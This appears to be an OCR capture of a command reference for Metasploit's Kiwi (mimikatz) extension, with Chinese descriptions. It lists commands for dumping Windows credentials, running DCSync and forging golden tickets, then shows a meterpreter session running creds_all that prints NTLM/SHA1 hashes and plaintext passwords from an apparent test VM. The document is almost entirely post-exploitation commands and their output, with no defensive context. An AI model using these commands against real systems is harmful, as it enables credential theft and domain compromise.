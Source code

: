 ```
Kiwi命令
==============

    命令     说明
    -------- -----------
    creds_all 检索所有凭据（已解析）
    creds_kerberos 检索 Kerberos 凭据（已解析）
    creds_livessp 检索实时 SSP 凭据
    creds_msv 检索 LM/NTLM 凭据（已解析）
    creds_ssp 检索 SSP 凭据
    creds_tspkg 检索 TsPkg 凭据（已解析）
    creds_wdigest 检索 WDigest 凭据（已解析）
    dcsync 通过 DCSync 检索用户帐户信息（未解析）
    dcsync_ntlm 通过 DCSync 检索用户帐户 NTLM 哈希、SID 和 RID
    Golden_ticket_create 创建黄金 kerberos 票证
    kerberos_ticket_list 列出所有 kerberos 票证（未解析）
    kerberos_ticket_purge 清除所有正在使用的 kerberos 票证
    kerberos_ticket_use 使用 kerberos 票证
    kiwi_cmd 执行任意的 mimikatz 命令（未解析）
    lsa_dump_sam 转储 LSA SAM（未解析）
    lsa_dump_secrets 转储 LSA 机密（未解析）
    password_change 更改用户的密码/哈希
    wifi_list 列出当前用户的 wifi 配置文件/凭据
    wifi_list_shared 列出共享的 wifi 配置文件/凭据（需要 SYSTEM）
```

```
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username     Domain  NTLM                              SHA1
--------     ------  ----                              ----
IEUser       IEWIN7  fc525c9683e8fe067095ba2ddc971889  e53d7244aa8727f5789b01d8959141960aad5d22
sshd_server  IEWIN7  8d0a16cfc061c3359db455d00ec27035  94bd2df8ae5cadbbb5757c3be01dd40c27f9362f

wdigest credentials
===================

Username     Domain     Password
--------     ------     --------
(null)       (null)     (null)
IEUser       IEWIN7     Passw0rd!
IEWIN7$      WORKGROUP  (null)
sshd_server  IEWIN7     D@rj33l1ng

kerberos credentials
====================

Username     Domain     Password
--------     ------     --------
(null)       (null)     (null)
IEUser       IEWIN7     (null)
iewin7$      WORKGROUP  (null)
sshd_server  IEWIN7     (null)
```
